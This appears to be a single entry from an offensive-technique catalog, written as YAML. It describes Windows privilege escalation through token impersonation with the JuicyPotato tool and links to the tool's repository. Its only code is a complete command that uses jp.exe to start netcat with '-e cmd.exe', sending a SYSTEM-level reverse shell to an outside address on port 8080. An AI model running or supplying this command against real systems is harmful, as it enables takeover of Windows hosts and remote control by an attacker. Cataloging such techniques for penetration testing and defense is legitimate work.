 ```yaml
---
functions:
  privilege-escalation:
    - description: Leverage a service account with impersonatetoken  and assignprimarytoken to get system
      code: |
        C:\ColdFusion8\runtime\bin>jp.exe -t * -p nc.exe -a "10.10.14.20 8080 -e cmd.exe" -c {e60687f7-01a1-40aa-86ac-db1cbf673334} -l 13337
resources: |
  https://github.com/ohpe/juicy-potato
  https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
---
```

